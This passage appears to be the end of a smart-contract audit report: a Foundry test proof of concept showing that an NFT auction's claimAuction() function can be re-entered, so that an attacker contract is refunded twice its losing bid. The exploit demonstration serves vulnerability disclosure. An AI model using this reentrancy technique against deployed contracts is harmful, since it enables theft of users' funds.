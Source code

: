 ```js

        hhMinter.setCollectionPhases(
            1, // collectionID
            block.timestamp, // _allowlistStartTime
            block.timestamp + 3 days, // _allowlistEndTime
            block.timestamp + 4 days, // _publicStartTime
            block.timestamp + 5 days, // _publicEndTime
            merkleRoot_msgSender
        );

        hhMinter.mintAndAuction(
            trustedAccount,
            '{"tdh": "100"}',
            99,
            1,
            block.timestamp + 2 days // auction end time
        );
        vm.prank(trustedAccount);
        IERC721(address(hhCore)).approve(address(hhAuctionDemo), 10000000000);

        assertEq(address(contractKiller).balance, 6 ether);
        vm.warp(block.timestamp + 1 days);

        // place bids
        vm.prank(aliceBidder);
        hhAuctionDemo.participateToAuction{value: 5 ether}(10000000000);
        // a losing bid by attacker
        vm.prank(address(contractKiller));
        hhAuctionDemo.participateToAuction{value: 6 ether}(10000000000);
        assertEq(address(contractKiller).balance, 0);

        vm.prank(highestBidder);
        hhAuctionDemo.participateToAuction{value: 30 ether}(10000000000);
        assertEq(hhAuctionDemo.returnHighestBid(10000000000), 30 ether);
        assertEq(hhAuctionDemo.returnHighestBidder(10000000000), highestBidder);

        skip(1 days); // auction end time
        // either the `highestBidder` or the admin calls `claimAuction()`
        // Note that `highestBidder` could well be just another account of `contractKiller` used to call claimAuction()
        hhAuctionDemo.claimAuction(10000000000); // @audit-info : reentrancy attack vector

        assertEq(address(contractKiller).balance, 12 ether); // @audit-info : attacker refunded twice the bid amount!
    }
}
```

## Tools Used
Foundry.
